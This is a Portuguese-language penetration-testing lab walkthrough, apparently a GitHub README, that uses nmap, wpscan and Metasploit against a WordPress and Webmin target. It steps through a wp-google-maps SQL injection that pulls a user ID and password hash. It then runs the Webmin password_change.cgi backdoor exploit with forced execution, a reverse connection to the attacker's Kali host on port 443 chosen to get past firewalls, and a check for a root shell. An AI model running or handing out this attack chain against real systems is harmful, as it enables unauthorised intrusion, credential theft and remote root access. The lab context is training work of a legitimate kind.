 # First Pass Recon
'''
1º sudo nmap -sS -T4 'Seu IP'
''' 

"Utilizar o IP do Kali para descobrir os outros dispostivos na rede, e assim saber os serviços que estão rodando."

'''
2º wpscan  —url ‘IP ALVO’
'''
"Utilizando o "wpscan", para assim levantar os plugins que estão rodando dentro da aplicação em questão. 
 Analisando então os plugins, pode-se localizar o plugin 'wp-google-maps'."

'''
3º sudo nmap -sV -p- -v -Pn 'IP ALVO' 
> -sV : Obtém a versão dos serviços rodando no alvo.
> -p- : Realiza um scanner em todas as 65535 portas.
> -v : Modo verboso.
> -Pn : Ignora o ICMP. 
'''
"Localize na saída analise os serviços utilizados pela aplicação e de atenção ao 'Webmin' 
 Dentro do terminal no Kali Linux utilize 'searchsploit webmin' Lista os exploits"

'''
4º sudo msfconsole
'''
"Fornece informações sobre vulnerabilidades de segurança e auxilia em testes de penetração e desenvolvimento de assinaturas IDS."

'''
5º msf5 > search wp-google-maps
'''
"Busca na ferramenta exploits para os plugins levantados no passo 2, localize o modo auxiliar para SQLinjection no wp-google-maps."

'''
6º msf5 > use 0  
'''
"Efetua no Metasploit o uso do auxiliar para SQLinjection."

'''
7º msf5 auxiliary (admin/http/wp-google-maps-sqli) > options 
'''
"Mostra as opções e quais dados devem ser setados no exploit."

'''
8º msf5 auxiliary (admin/http/wp-google-maps-sqli) > set rhosts 'IP ALVO' 
rhosts ⇒ ip do alvo
'''
"Adiciona o IP do alvo ao exploit para SQLinjection" 

'''
9º msf5 auxiliary (admin/http/wp-google-maps-sqli) > run 
'''
"Efetua o SQLinjection, trazendo no console que existe uma credencial salva no server, 
 capturando assim o ID e HASH da senha do usuário. 

'''
10º msf5 auxiliary (admin/http/wp-google-maps-sqli) > search webmin 
'''
"O MSF lista os exploits, no caso veja que foi encontrado o 'webmin password_change.cgi Backdoor', 
 exploit que será explorado nesse lab."

'''
11º msf5 auxiliary (admin/http/wp-google-maps-sqli) > use 2
'''
"Comando para iniciar o exploit que será utilizado."

'''
12º msf5 auxiliary (admin/http/wp-google-maps-sqli) > options 
'''
"Mostra todas as opções que se pode setar no exploit, mostrando também que já veio setado um 'payload' no caso em questão, 
 caso não viesse, o usuário deveria fazer o 'payload'."

'''
13º msf5 auxiliary (admin/http/wp-google-maps-sqli) > info 
'''
"Analisa as informações do exploit, mostrando a versão."

'''
14º msf5 auxiliary (admin/http/wp-google-maps-sqli) > set forceexploit true 
'''
"Caso a versão seja diferente o comando 'force' faz com que o msf execute o exploit independente da versão." 

'''
15º msf5 auxiliary (admin/http/wp-google-maps-sqli) > options 
'''
"Analise as informações a serem setadas, como no caso o 'rhosts, lhost, lport e ssl'."

'''
16º msf5 auxiliary (admin/http/wp-google-maps-sqli) > set rhosts 'IP ALVO'
> rhost: IP DO ALVO (Para a conexão remota)
'''

'''
17º msf5 auxiliary (admin/http/wp-google-maps-sqli) > set lhost 'IP KALI' 
> lhost: IP KALI (Para receber a conexão reversa)
'''

'''
18º msf5 auxiliary (admin/http/wp-google-maps-sqli) > set lport 443
> lport: 443 (Número da porta onde irá simular a conexão com a web, evitar setar número alto para burlar o firewall.)
'''

'''
19º msf5 auxiliary (admin/http/wp-google-maps-sqli) > set ssl true 
> ssl: TRUE (Confirma para que assim tenha a conexão)
'''

'''
20º msf5 auxiliary (admin/http/wp-google-maps-sqli) > run 
'''
Após o msf5 abrir a sessão com o alvo, digite 'whoami' caso seja 'root' digite no terminal -> shell <- acesso realizado. 
